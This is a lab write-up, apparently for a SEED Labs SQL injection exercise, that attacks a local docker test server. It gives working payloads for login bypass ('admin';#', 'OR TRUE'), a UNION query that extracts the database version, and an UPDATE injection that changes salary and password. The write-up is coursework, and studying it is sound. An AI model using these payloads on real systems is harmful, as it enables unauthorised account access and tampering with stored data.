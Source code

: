 * Setup
*** cd category-web/Web_SQL_Injection/Labsetup
*** docker-compose up
*** add 10.9.0.5 with host name www.seed-server.com in /etc/hosts file in the host machine
*** Go to www.seed-server.com and if you find the login page then the setup is complete


* Task 1
** Approach 1
*** Type {{admin';#}} in the username field and anything in the password field
    In the code we can see the comparison of name with 'admin', so there must be an username with 'admin'.
*** Then all the usernames will be shown from where we can find Alice.
*** Type {{Alice;#}} in the username field and anything in the password field and viola!

** Approach 2
*** Insert {{' OR TRUE;#}} in the username field and we are in!
    This works because we are essentially nullyfying the where clause with 'OR TRUE', so the result set contains all the records.
    But in the PHP code, we can see that all the records from the sql results are pushed into the array and only the 0th index is accessed as logged in user.

    #+BEGIN_SRC php
      /* convert the select return result into array type */
      $return_arr = array();
      while($row = $result->fetch_assoc()){
        array_push($return_arr,$row);
      }

      /* convert the array type to json format and read out*/
      $json_str = json_encode($return_arr);
      $json_a = json_decode($json_str,true);
      $id = $json_a[0]['id'];
    #+END_SRC

** Screenshot
#+CAPTION: Login as Alice
[[./screenshots/assignment/task-1-login-alice.png]]


* Task 2

* Task 3
** Union Attack
*** Insert {{' or FALSE union select 1,version(),null,null,null,null,null,null,null,null,null #}} in the username
    This works because we are essentially nullyfying the first SELECT using FALSE condition and
    then unioning the result of a select statement with equal number of resultants.
    In the manufactured select clause id cannot be null because the code assumes if id exists then user exists, so we put in dummy 1 as id
    and our targeted version() in place of the name field. All other values are null since their contents are unnecessary in this context.

** Screenshot
#+CAPTION: MYSQL Version
[[./screenshots/assignment/task-3-mysql-version.png]]


* Task 4

* Task 5

* Task 6
*** If we provide eid with {{1' OR TRUE}} and password with {{pass' OR TRUE}} the transferred SQL looks like below.
    #+BEGIN_SRC sql
      SELECT * FROM customers
      WHERE eid='1' OR TRUE AND
      password='pass' OR TRUE;
    #+END_SRC
    This in turn will either spit up all users or sign me as first user.
    Or we can inject other conditions instead of TRUE to get access for a specific user if we know the columns of the database.

* Task 7
*** If we set name {{Reddington', salary=1}} and we know an information like eid or other column value unique to the attacker we can update any columns we want.
    Here we are assuming that we know the employee id, then we have to pass {{1';--}} to the employee id.
    #+BEGIN_SRC sql
      UPDATE employee
      SET name='Reddington', salary=1, password='$hashed_newpwd'
      WHERE eid = '1';--and password='$hashed_oldpwd';
    #+END_SRC
